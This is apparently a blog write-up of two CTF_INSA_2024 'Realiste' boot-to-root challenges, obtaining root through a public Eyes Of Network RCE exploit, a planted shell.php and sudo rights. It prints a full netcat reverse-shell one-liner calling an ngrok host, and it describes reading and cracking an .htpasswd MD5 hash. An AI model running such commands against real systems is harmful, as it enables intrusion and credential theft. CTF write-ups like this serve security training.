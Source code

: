```yaml
---
title: CTFs | CTF_INSA_2024 | Realiste
author: BatBato
date: 2024-02-05
categories:
  - CTFs
  - CTF_INSA_2024
  - Realiste
tags:
  - CVE
permalink: /CTFs/CTF_INSA_2024/Realiste/
---
```

# Réaliste
#  Le monitoring est important 

![[realiste1_sujet.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_sujet.png)

In this challenge, we are tasked to become root of the machine. First we go to the login page and can log-in with the credentials `admin:admin` (before that other teams changed it).
![[raeliste1_login.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/raeliste1_login.png)

There is nothing that looks interesting on this website so can search for online available exploits for `Eyes Of Netwok exploit` One common website that list exploits is Exploit-DB:

![[realiste1_exploit.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_exploit.png)

We can also locally find exploit using the `searchsploit` tool:
![[realiste1_searchsploit.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_searchsploit.png)




After a bit of digging, I found this exploit [https://github.com/h4knet/eonrce](https://github.com/h4knet/eonrce). For this to work, I only need to specify the website, my IP (here my `ngrok`) and my port. To do so, I launched my listener and my ngrok:

![[realiste1_listener.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_listener.png)

Now I just have to run the exploit:

![[realiste1_final_exploit.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_final_exploit.png)

When heading back to our listener, we have a root shell and we can now improve it :

![[realiste1_root_shell.png]](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_root_shell.png.png)

We can now read the flag at `/root/flag.txt`

# PwnMe

![[PwnMe_sujet.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/PwnMe_sujet.png)

In this challenge, we are also tasked to become root of the machine. 

First, we can enumerate the website using `Gobuster` because there is nothing in the source code or on the page:

![[realiste2_gobuster.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_gobuster.png)

As you can see, there are a lot of results. Lets look at the `assets` folder:
![[realiste2_assets.png.p(https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_assets.png)ng]]


We notice a file called `shell.php`:

![[realiste2_shell.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_shell.png)

As you can see, we can perform basic Linux command execution, lets try to execute a reverse shell command (and not be loud like the other teams uploading a lot of files):
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 4.tcp.eu.ngrok.io 14433 >/tmp/f`

We now have a shell as `www-data`, this user by default don't have rights but as you can see, we can read the content of `/home/debian/.htpasswd`:

![[realiste2_passwd.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_passwd.png)
This gives us the md5 hash of the user `debian` that we can crack offline using `John` or `Hashcat` but also online using `crackstation`:  

![[realiste2_md5.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_md5.png)

We now have the password of the user `debian`. We can run `su debian` and provide the found password:

![[realiste_debian.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste_debian.png)

As we can see, we can run any commands as `debian`:

![[realiste_sudo_l.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste_sudo_l.png)

So we can get a root shell as follows:

![[realiste_sudo.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste_sudo.png)

And now we juste have to go to the `/root` folder and recover the flag:

![[realiste_2_flag.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste_2_flag.png)
